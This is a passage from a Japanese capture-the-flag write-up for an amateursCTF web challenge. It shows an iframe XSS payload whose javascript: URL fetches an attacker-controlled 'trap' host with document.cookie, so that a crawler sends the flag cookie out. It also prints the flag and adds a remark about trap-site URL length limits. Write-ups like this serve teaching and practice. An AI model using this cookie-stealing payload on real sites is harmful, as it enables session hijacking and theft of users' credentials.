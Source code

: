     - body

    ```text
    <iframe src="javascript:fetch('https://trap.xxxx/?'+document.cookie)"></iframe>
    ```

3. クローラに生成したページをアクセスさせる。

4. フラグとなるcookie付きのリクエストが送られてくる。

```text
amateursCTF{s@nit1zar_ap1_pr3tty_go0d_but_not_p3rf3ct}
```

### 余談

Prototype Pollution用の罠サイトのURLが長くなると文字数制限でエラーとなるため、なかなか面倒でした。  
CORS制限がなければ、Pastebinで終わりだったような気がします。  
ngrokやAmazon API Gatewayのデフォルトドメインを使うとtitleが長くなりすぎてエラーとなったため、仕方なくさくらのレンタルサーバを使いました。  
こういう時ドメイン持ってると楽だなと思いました。
